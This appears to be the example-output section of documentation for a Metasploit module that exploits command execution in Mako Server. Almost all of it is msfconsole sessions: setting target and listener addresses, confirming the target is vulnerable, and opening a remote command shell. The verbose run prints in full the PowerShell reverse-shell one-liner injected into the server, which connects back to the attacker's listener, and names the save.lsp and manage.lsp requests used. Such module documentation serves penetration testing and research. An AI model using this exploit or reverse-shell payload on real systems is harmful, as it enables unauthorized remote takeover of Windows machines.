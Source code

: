 ## Example Output
```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49175) at 2017-10-26 21:23:59 -0400

Microsoft Windows
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

## Example Verbose Output
```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set VERBOSE true
VERBOSE => true
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > check

[*] Trying to detect running Mako Server and necessary files...
[*] Mako Server save.lsp returns correct ouput.
[*] 10.10.10.3:80 The target appears to be vulnerable.
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Now executing the following command: os.execute([[powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.2';$p='4444';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};]])
[*] Sending PUT request to save.lsp...
[*] Sending GET request to manage.lsp...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49174) at 2017-10-26 21:21:08 -0400

Microsoft Windows
```